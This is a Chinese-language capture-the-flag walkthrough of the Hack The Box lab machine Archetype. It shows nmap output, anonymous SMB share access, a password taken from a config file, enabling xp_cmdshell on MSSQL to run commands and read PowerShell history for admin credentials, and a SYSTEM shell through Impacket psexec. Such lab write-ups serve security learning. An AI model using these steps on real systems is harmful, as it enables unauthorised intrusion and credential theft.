

## Archetype
这是 hack the box 的第一个环境，在 starting-point 里面，刚接触的时候着实一脸懵逼，无从下手，虽然一直到现在也是这样，包括其他的环境，基本上都是对着 wp 抄一波，尝试去理解这个思维，然后再慢慢变成自己的东西。

### 正文
上来先 nmap 看看环境的端口
```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-12 14:15 CST
Nmap scan report for 10.10.10.27
Host is up (0.39s latency).
Not shown: 996 closed ports
PORT     STATE SERVICE      VERSION
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds Windows Server 2019 Standard 17763 microsoft-ds
1433/tcp open  ms-sql-s     Microsoft SQL Server 2017 14.00.1000.00; RTM
| ms-sql-ntlm-info: 
|   Target_Name: ARCHETYPE
|   NetBIOS_Domain_Name: ARCHETYPE
|   NetBIOS_Computer_Name: ARCHETYPE
|   DNS_Domain_Name: Archetype
|   DNS_Computer_Name: Archetype
|_  Product_Version: 10.0.17763
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2020-06-12T03:38:10
|_Not valid after:  2050-06-12T03:38:10
|_ssl-date: 2020-06-12T06:30:26+00:00; +14m27s from scanner time.
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=6/12%OT=135%CT=1%CU=40752%PV=Y%DS=2%DC=T%G=Y%TM=5EE31D
OS:9F%P=x86_64-pc-linux-gnu)SEQ(SP=107%GCD=1%ISR=108%TI=I%CI=I%II=I%SS=S%TS
OS:=U)OPS(O1=M54DNW8NNS%O2=M54DNW8NNS%O3=M54DNW8%O4=M54DNW8NNS%O5=M54DNW8NN
OS:S%O6=M54DNNS)WIN(W1=FFFF%W2=FFFF%W3=FFFF%W4=FFFF%W5=FFFF%W6=FF70)ECN(R=Y
OS:%DF=Y%T=80%W=FFFF%O=M54DNW8NNS%CC=Y%Q=)T1(R=Y%DF=Y%T=80%S=O%A=S+%F=AS%RD
OS:=0%Q=)T2(R=Y%DF=Y%T=80%W=0%S=Z%A=S%F=AR%O=%RD=0%Q=)T3(R=Y%DF=Y%T=80%W=0%
OS:S=Z%A=O%F=AR%O=%RD=0%Q=)T4(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T5(R
OS:=Y%DF=Y%T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=80%W=0%S=A%A=O%F
OS:=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%
OS:T=80%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=80%CD
OS:=Z)

Network Distance: 2 hops
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 1h38m28s, deviation: 3h07m52s, median: 14m26s
| ms-sql-info: 
|   10.10.10.27:1433: 
|     Version: 
|       name: Microsoft SQL Server 2017 RTM
|       number: 14.00.1000.00
|       Product: Microsoft SQL Server 2017
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
| smb-os-discovery: 
|   OS: Windows Server 2019 Standard 17763 (Windows Server 2019 Standard 6.3)
|   Computer name: Archetype
|   NetBIOS computer name: ARCHETYPE\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2020-06-11T23:30:13-07:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-06-12T06:30:12
|_  start_date: N/A

TRACEROUTE (using port 21/tcp)
HOP RTT       ADDRESS
1   398.86 ms 10.10.14.1
2   390.79 ms 10.10.10.27

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 54.18 seconds
```
可以看到开启了 139/445 端口，这些端口都是用于提供 smb 服务的，这里查了一下为什么一个服务用几个端口

> SMB（Server Message Block）协议在 NT/2000 中用来作文件共享，在 Win-NT 中，SMB 运行于 NBT（NetBIOS over TCP/IP）上，使用137，139（UDP），139（TCP）端口。 在 win2000 级以上版本中，SMB 可以直接运行在 tcp/ip 上，而没有额外的NBT层，使用 TCP 445 端口。

（135、137、138、139 和 445 都是 smb）

smb 服务提供匿名访问，可以通过 smbclient 检测服务是否开启

```
docupa@kali:~$ smbclient -N -L 10.10.10.27

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        backups         Disk      
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
SMB1 disabled -- no workgroup available
```
发现一个叫 backups 的路径，尝试继续匿名访问
```
docupa@kali:~$ smbclient -N \\\\10.10.10.27\\backups
Try "help" to get a list of possible commands.
smb: \>
```
成功进入交互，找找里面有没有有用的东西

在第一层的路径里面有一个叫 prod.dtsConfig 的文件，获取文件查看内容得到一段配置
```
<DTSConfiguration>
    <DTSConfigurationHeading>
        <DTSConfigurationFileInfo GeneratedBy="..." GeneratedFromPackageName="..." GeneratedFromPackageID="..." GeneratedDate="20.1.2019 10:01:34"/>
    </DTSConfigurationHeading>
    <Configuration ConfiguredType="Property" Path="\Package.Connections[Destination].Properties[ConnectionString]" ValueType="String">
        <ConfiguredValue>Data Source=.;Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc;Initial Catalog=Catalog;Provider=SQLNCLI10.1;Persist Security Info=True;Auto Translate=False;</ConfiguredValue>
    </Configuration>
</DTSConfiguration>
```
在里面可以看到有一个账号密码，尝试了这个身份去登录 smb，发现并不能找到什么，便开始往 Sql 尝试

用 Impacket 工具包下的 mssqlclient.py 进行 sql 连接
```
docupa@kali:~$ sudo mssqlclient.py ARCHETYPE/sql_svc@10.10.10.27 -windows-auth
Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

Password:
[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: None, New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(ARCHETYPE): Line 1: Changed database context to 'master'.
[*] INFO(ARCHETYPE): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (140 3232) 
[!] Press help for extra shell commands
SQL>
```
进入交互，因为是 windows 平台的，所以要加上 -windows-auth，进入交互后，查询登录账号是否是数据库最高管理员，如果是的话即可 rce

```
SQL> select IS_SRVROLEMEMBER('sysadmin')
              

-----------   

          1 
```
可以 rce
```
EXEC sp_configure 'Show Advanced Options', 1;
reconfigure;
sp_configure;
EXEC sp_configure 'xp_cmdshell', 1
reconfigure;
xp_cmdshell "whoami"
```
上面这段操作的命令并不明白，但是着实懒得去查（

可以 rec 后通过 powershell 弹一个 shell 出来，然后各种找路径，在 powershell 的历史文件，可以看到里面泄露了最重要的东西

在官方 wp 中，是通过 powershell 弹 shell 然后再找，这边直接选择在 sql 里面 rce 找

```
SQL> xp_cmdshell "type C:\\Users\\sql_svc\\AppData\\Roaming\\Microsoft\\Windows\\PowerShell\\PSReadline\\ConsoleHost_history.txt"
output                                                                             

--------------------------------------------------------------------------------   

net.exe use T: \\Archetype\backups /user:administrator MEGACORP_4dm1n!!            

exit                                                                               

NULL
```
可以看到有 admin 的账号密码，账号可以访问 smb 中的 admin$ 共享路径

直接通过 psexec.py 用账号密码连接
```
docupa@kali:~$ sudo psexec.py administrator@10.10.10.27
[sudo] docupa 的密码：
Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

Password:
[*] Requesting shares on 10.10.10.27.....
[*] Found writable share ADMIN$
[*] Uploading file PzNWJNhg.exe
[*] Opening SVCManager on 10.10.10.27.....
[*] Creating service euSq on 10.10.10.27.....
[*] Starting service euSq.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
nt authority\system

C:\Windows\system32>
```
获得 shell

具体逻辑图
